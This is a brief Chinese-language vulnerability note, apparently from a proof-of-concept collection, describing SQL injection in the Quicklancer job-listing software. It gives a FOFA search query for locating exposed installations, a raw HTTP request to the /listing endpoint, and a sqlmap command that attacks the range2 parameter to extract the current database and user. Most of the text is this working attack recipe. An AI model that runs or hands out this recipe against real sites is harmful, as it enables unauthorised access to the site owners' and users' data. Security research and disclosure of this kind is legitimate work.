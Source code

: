 # Quicklancer listing存在SQL注入漏洞

# 一、漏洞简介
Quicklancer listing存在SQL注入漏洞

# 二、影响版本
+ Quicklancer 

# 三、资产测绘
+ fofa`"service_fragments/css/gig_detail.css"`

![1722357327737-2f75dc76-450b-4762-baaf-f6cb6b6db449.png](./img/Zctu3AEtWqtDqQ_6/1722357327737-2f75dc76-450b-4762-baaf-f6cb6b6db449-311413.png)

# 四、漏洞复现
```java
GET /listing?cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1&salary-type=1&sort=id&subcat= HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

```java
python3 sqlmap.py -r test.txt -p range2 --dbms=mysql --current-db --current-user --batch
```

![1722357353437-b723d9d3-47f0-445d-8cae-7a8b96f7c899.png](./img/Zctu3AEtWqtDqQ_6/1722357353437-b723d9d3-47f0-445d-8cae-7a8b96f7c899-327561.png)



> 更新: 2024-08-12 17:15:58  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ggplqb9der0o0i5m>
